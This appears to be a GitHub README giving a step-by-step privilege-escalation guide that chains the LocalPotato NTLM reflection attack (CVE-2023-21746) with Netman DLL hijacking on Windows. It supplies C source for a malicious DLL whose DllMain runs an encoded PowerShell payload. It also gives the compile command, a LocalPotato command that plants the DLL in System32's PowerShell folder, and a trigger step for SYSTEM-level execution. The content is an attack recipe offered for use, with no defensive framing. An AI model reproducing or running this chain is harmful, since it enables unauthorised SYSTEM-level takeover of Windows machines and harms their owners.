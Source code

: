 # LocaLPotato + DLL Hijacking Exploitation Paths

## Overview

LocaLPotato is an attack technique exploiting NTLM reflection vulnerabilities to facilitate local authentication attacks. This method enables attackers to read/write files arbitrarily and escalate privileges on a target system.

Significant vulnerabilities associated with LocaLPotato include:
- **SMB Scenario**: Addressed by Microsoft in the January 2023 Patch Tuesday (CVE-2023-21746).
- **HTTP/WebDAV Scenario**: Remains unpatched and exploitable on systems with the latest updates.

This repository provides a straightforward guide on leveraging LocaLPotato through various DLL hijacking vulnerabilities.

## Getting Started

### Prerequisites

- Download and compile the LocaLPotato tool from [decoder-it/LocalPotato](https://github.com/decoder-it/LocalPotato/tree/master).

### Exploitation Steps

#### 1. DLL Hijacking with Netman

Refer to the detailed guide on [Windows Server Netman DLL Hijacking](https://itm4n.github.io/windows-server-netman-dll-hijacking/) for initial setup.

**Creating a Reference File for the DLL**:
- **wlanapi.dll**: Required for Windows Server 2012.
- **wlanhlp.dll**: Required for other versions.

**Example of DLL Source Code (`wlanapi.c`)**:

```c
#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
        case DLL_PROCESS_ATTACH:
            system("powershell -enc JAB1A..."); // Insert your encoded PowerShell script here
            break;
        case DLL_PROCESS_DETACH:
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
            break;
    }
    return TRUE;
}
```

**Compiling the DLL on Linux:**
```bash
x86_64-w64-mingw32-gcc -shared -o wlanapi.dll wlanapi.c wlanapi_orig.def -s
```

**Deploying with LocaLPotato:**
Place the compiled DLL in a directory within the system's %PATH%, for example:
```bash
LocalPotato.exe -i C:\Temp\Exp\wlanapi.dll -o Windows\System32\WindowsPowerShell\v1.0\wlanapi.dll
```

**Triggering the Exploit:**
Compile and execute the NetManTrigger. The malicious DLL will be loaded and executed in the system user context.
